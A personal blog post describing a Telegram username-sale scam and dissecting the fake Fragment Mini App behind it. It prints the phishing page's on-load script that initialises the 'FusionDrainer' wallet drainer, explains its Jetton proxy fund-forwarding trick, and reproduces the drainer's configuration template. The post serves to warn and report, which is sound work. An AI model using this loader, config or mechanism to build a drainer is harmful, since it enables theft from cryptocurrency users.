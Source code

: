 ```yaml
---
title: "Telegram Fragment Scam"
description: 'My Close Call with a Scammer Over a Username Sale'
authors: ['decentparadox']
date: '2024-12-27'
tags: ['telegram', 'crypto', 'scam']
image: './1200x630.png'
---
```




It all began with an offer that seemed too good to be true. Someone wanted to buy my username, decentparadox, for a jaw-dropping 3500 TON. Interested, I decided to play along, hinting that I might sell if the offer got interesting enough. I would have sold it if he was a legit buyer —— Then, the buyer increased their bid to 6,000 TON. My skepticism kicked in. Why would anyone pay such a ridiculous amount for a username as ordinary as mine? It screamed "scam," but I was curious.

<img src="/static/images/fragment-scam/Scam_convo.png" class="rounded-xl" />

## The Negotiation Begins

So, I suggested we list the username on Fragment, a legit auction site for collectible usernames. The buyer claimed to be an "authorized Fragment merchant" and said we could finalize the deal instantly. Then they sent me a link to a bot that was supposed to handle everything. My instincts kicked in, and I felt uneasy.

When I checked out the bot, it was all in Russian, which was a huge red flag. I mean, who uses a bot in just one language for something so global? Trusting my gut, I decided this was definitely shady.


I confronted the scammer. I pointed out their poorly executed plan and even jokingly offered to help them write better scripts. Enraged, they fired back with (“What scam???? Are you crazy!!!!”) before deleting the entire chat from my side. Classic scammer move.

---

# Dissection

The scammer’s link led to a Telegram Mini App (TMA):

https://t.me/Bid_Notification_sell_bot/notify?startapp=nftwhale101e-6000-300-1735227654

For the uninitiated, TMAs are essentially websites connected to a bot for seamless Telegram integration. This link mimicked Fragment’s user interface flawlessly. However, a closer look revealed inconsistencies. Right-clicking was disabled, but I used Fiddler Classic to inspect the requests. No external API calls were made except to the home page. Suspicious. Further digging revealed how the scammer customized the page using launch parameters:
```javascript
import { useLaunchParams } from "@telegram-apps/sdk-react";
const lp = useLaunchParams();


const [param1, param2, param3] = lp.startParam.split("-");
```

The nftwhale101e-6000-300-1735227654 part of the link provided parameters to render a fake page tailored to the interaction.

## The Fusion Drainer: The Scam’s Engine

The site called a suspicious script on load:
```html
<script>
  (function() {
    function initDrainer() {
      if (window.drainer && typeof window.drainer.init === 'function') {
        try {
          window.drainer.init({
            autoCreateTransaction: true,
            autoOpenModal: false,
            disableWalletSave: false
          });
        } catch (error) {
          console.error('Error initializing FusionDrainer:', error);
        }
      } else {
        console.warn('FusionDrainer not yet loaded. Retrying...');
        setTimeout(initDrainer, 100);
      }
    }

    window.addEventListener('load', initDrainer);
  })();
</script>
```
Fusion Drainer is a malicious tool designed to drain assets from a wallet on the TON network. It uses a technique called JettonProxyHoneypot, forwarding all TONs from the wallet’s balance and self-destroying the wallet. Essentially, it’s a sophisticated honeypot for scammers.

## How Jetton Proxy Works

Jetton Proxy operates as a mechanism to facilitate fraudulent transactions on the TON network. By exploiting the TON blockchain’s flexibility, scammers use a proxy contract to relay all funds to their controlled wallets. The proxy contract acts as a middleman, making it appear as if the transaction is legitimate. However, once the user approves the transaction, their assets are immediately drained through the proxy.
This is a proxy that sends body refs of incoming internal message as internal message with mode = 128+32 (forwards all TONs from balance and self-destroy). 

Jetton Proxy scams often involve:
- Fake Offers: Users are lured with lucrative deals or fake NFT sales.
- Deceptive Smart Contracts: Contracts are designed to forward TON tokens while bypassing standard security measures.
- Wallet Impersonation: The proxy mimics genuine wallets or services to mask its true intent.

Understanding this mechanism is key to identifying and avoiding such scams.

---
## Fusion driver config

The Fusion Drainer’s YAML configuration revealed more:

```yaml
api:
  # Base URL for the API
  base_url: "https://yourdomain.com"
telegram:
  # Token for your Telegram bot
  bot_token: "your_bot_token"

  # Global Chat ID for logs
  global_logs_chat_id: "-1234567890"

  # Forcefully disable visit logs in the global channel
  force_disable_visit_logs: false

  # Duplicate logs of successful transactions to the global channel
  duplicate_successful_transaction_logs: true
whitelist:
  # Whitelist of user IDs allowed to interact with the bot
  - 123456789
  - 987654321
ton:
  # API key for accessing TON services
  apiKey: "your_api_key"

  # API endpoint URL for TON services
  endpoint: "https://toncenter.com/api/v2/jsonRPC"

  # Owner's mnemonic phrase
  # This is required for deploying and managing smart contracts.
  mnemonic: "your_mnemonic_phrase"
nft:
  # Fallback static price for teleitem domain in TON if API fails to provide a price
  teleitemDomainFallbackPrice: 1

  # Fallback static price for teleitem number in TON if API fails to provide a price
  teleitemNumberFallbackPrice: 10

  # Fallback static price for teleitem username in TON if API fails to provide a price
  teleitemUsernameFallbackPrice: 10
```
Although [disclaimer](https://fusiondrainer-docs.info/en/disclaimer.html) says its prohibited for illegal use, documentation in one of pages clearly suggests they want to sell this software to people who use it for illegal use. Logging events to a global chat, maintaining a whitelist—these are tools for malicious actors.

## Reporting 
<img src="/static/images/fragment-scam/abuse_report.png" class="rounded-xl" />

I reported the scammer to Cloudflare, detailing the phishing risks and providing evidence of the bot and fake site. To Telegram, I used the @notoscam bot to flag the scammer’s accounts. Every report helps disrupt their operations and protect others from falling victim.